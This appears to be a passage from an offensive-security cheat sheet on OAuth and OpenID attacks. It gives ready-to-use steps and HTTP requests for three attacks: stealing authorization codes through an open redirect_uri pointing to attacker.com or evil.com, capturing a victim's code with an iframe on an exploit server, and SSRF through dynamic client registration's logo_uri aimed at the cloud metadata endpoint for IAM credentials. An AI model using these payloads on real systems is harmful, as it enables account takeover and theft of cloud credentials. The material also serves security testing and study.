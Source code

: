 > If you target an OpenID server, the discovery endpoint at \*\*`.well-known/openid-configuration`\*\*sometimes contains parameters such as "_registration\_endpoint_", "_request\_uri\_parameter\_supported_", and "_require\_request\_uri\_registration_". These can help you to find the registration endpoint and other server configuration values.

````jsx
    1. login with social account then logout and try login again
    2. notice that you are redirected without any credentials
    3. notice "redirect_uri" vulnerable to open redirect
    ----------------------
    	GET /authorize?response_type=code&client_id=s6BhdRkqt3&state=9ad67f13
    	&redirect_uri=https://attacker.com/ HTTP/1.1
    	Host: oauth.lab
    ----------------
    	GET /authorize?response_type=code&client_id=s6BhdRkqt3&state=9ad67f13
    	&redirect_uri=https://facebook.com/?u=http://evil.com&h=e8989909s HTTP/1.1
    	Host: example.com
    --------------------------------
    4. notice there are /callback?code=auth-callback-code
    5. go to your exploit server and try:
    <iframe src="<https://TARGET-OAUTH-SERVER.net/auth?client_id=CLIENT-ID&redirect_uri=https://YOUR-EXPLOIT-SERVER.net&response_type=code&scope=openid%20profile%20email>"></iframe>
    
    6. steal the victim code and make request to
    <https://YOUR-Target/oauth-callback?code=STOLEN-CODE>
    
    # References 
    <https://hackerone.com/reports/665651> > Stealing Users OAuth Tokens through redirect_uri parameter
    ```
    
- **SSRF via OpenID dynamic client registration**
    
    ```jsx
    1. try browse <https://TARGET-OAUTH-SERVER.net/.well-known/openid-configuration>
    2. Notice where the client registration endpoint is located example:"/reg"
    3. In Burp Repeater, create a suitable POST request and retrieve registration data like "client_id"
    ----------------------------------------------
    POST /reg
    HTTP/1.1
    Host: TARGET-OAUTH-SERVER.net
    Content-Type: application/json
    { "redirect_uris" : [
     "<https://example.com>" ]
    }
    ---------------------------------------------
    4. Send the GET /client/CLIENT-ID/logo request to Burp Repeater
    5. Go back to "POST /reg" request,Add the "logo_uri" ,test if it's vulnerable to ssrf
    -------------------------------------------------
    POST /reg
    HTTP/1.1
    Host: TARGET-OAUTH-SERVER.net
    Content-Type: application/json
    { "redirect_uris" : [
     "<https://example.com>" ], "logo_uri" :
    "<https://BURP-COLLABORATOR-PAYLOAD>"
    }
    -------------------------------------------------
    6. Try Read meta data files like
       "logo_uri" : "<http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/>"
    ```
    
- **Stealing OAuth access tokens via a proxy page**
````